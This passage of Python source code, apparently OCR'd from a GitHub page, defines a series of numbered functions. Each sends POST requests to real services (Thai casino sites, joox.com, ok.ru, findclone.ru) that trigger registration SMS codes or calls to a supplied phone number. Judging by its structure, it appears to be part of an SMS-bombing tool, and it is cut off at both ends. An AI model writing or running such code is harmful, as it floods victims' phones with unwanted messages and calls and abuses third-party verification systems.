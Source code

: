              "appVersion": "2.0.0", "pValue": "", "position": {"lon": "null", "lat": "null"}, "bizType": "0000", "appName": "Cash Market", "packageName": "com.cashmarketth.h5", "screenResolution": "720,1280"}, "clientTypeFlag": "h5", "token": "", "phoneNumber": "", "timestamp": "1642479101529", "bizParams": {"phoneNum": phone, "code": "null", "type": 200, "channelCode": "hJ071"}})

    def api73(phone):

        post("https://bacara888.com/api/otp/register",

             data={"applicant": phone, "serviceName": "gclub"})

    def api74(phone):

        post("https://www.tslpv.net/api/v1/sendRegisterSms",

             data={"national_number": phone, "country_code": "TH", "g_token": "null"})

    def api75(phone):

        post("https://queenclub88.com/api/register/phone",

             data={"phone": phone})

    def api76(phone):

        post("https://api.cdfoi9.com/api/v1/index.php", data=f"module=%2Fusers%2FgetVerificationCode&mobile={phone}&merchantId=111&domainId=0&accessId=&accessToken=&walletIsAdmin=", headers={

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "content-type": "application/x-www-form-urlencoded"})

    def api77(phone):

        post(

            f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=0{phone}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    def api79(phone):

        send = Session()

        send.headers.update({"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38",

                            "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})

        snd = send.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",

                        data=f"st.r.phone=+66{phone[1:]}")

        sed = send.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",

                        data="st.r.fieldAcceptCallUIButton=Call")

    def api80(phone):

        post(f"https://findclone.ru/register?phone=+66{phone[1:]}", headers={"X-Requested-With": "XMLHttpRequest",
